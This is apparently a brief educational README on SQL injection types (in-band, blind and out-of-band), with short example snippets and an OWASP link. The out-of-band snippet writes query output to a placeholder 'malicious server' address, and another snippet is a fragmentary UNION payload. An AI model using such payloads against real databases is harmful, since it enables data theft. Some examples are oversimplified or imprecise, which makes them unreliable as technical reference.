 <p align="center"><img align="center" width="300" height="300" src="./assets/SQL-Injection.gif"/></p>

# SQL Injection
SQL injection is a security vulnerability in which the attacker is able to view the data in the database. They can even delete or modify the data. We also have a few types of SQL Injection attack formats.

<code> You can learn more here:
https://owasp.org/www-community/attacks/SQL_Injection</code>

## SQL In-Band or SQLi
This attack occurs when the attacker uses the same communication channel to carry out attacks and obtain responses. An example of this is **error-based SQLi**, which triggers an error message when trying to use an SQL payload. The other format is **UNION-based SQLi**, in which using the SQL UNION database operator results in multiple SELECT statements in just one response.

**Example**: 
```sql
 UNION SELECT 1
```

## Blind SQLi
This is the type of SQL injection attack that queries the database and returns true or false.

**Example**
```sql
www.target.com/accounts.php?id=1

SELECT * FROM accounts WHERE ID = 1
```
## Out-of-Band SQL
When an attacker manages to manipulate the data query through hacking and transmit it to a server controlled by the attacker.
```sql
select * from target
into OUTFILE '\\My Malicious Server  IP'
```